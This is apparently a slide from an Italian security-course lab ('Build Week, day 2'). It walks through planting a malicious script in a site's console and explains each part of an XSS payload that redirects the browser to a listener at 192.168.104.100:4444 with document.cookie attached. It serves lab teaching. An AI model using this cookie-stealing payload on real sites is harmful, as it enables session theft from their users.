

Procediamo con l’inserimento dello script malevolo, ma prima dobbiamo modificare il numero massimo di caratteri da poter inserire
tramite la console del sito.

<script> apre la scrittura dello stesso script;
window.location fornisce informazioni sull’URL del browser e ci permette di navigare verso un nuovo URL;
http://192.168.104.100:4444 è lo URL base al quale il browser verrà reindirizzato;
+document.cookie restituisce, appunto, il cookie. In questo caso, il documento contiene una lista separata in colonne con coppie di valori chiave che rappresentano i cookie associati al documento stesso.
BUILD WEEK  - GIORNO 2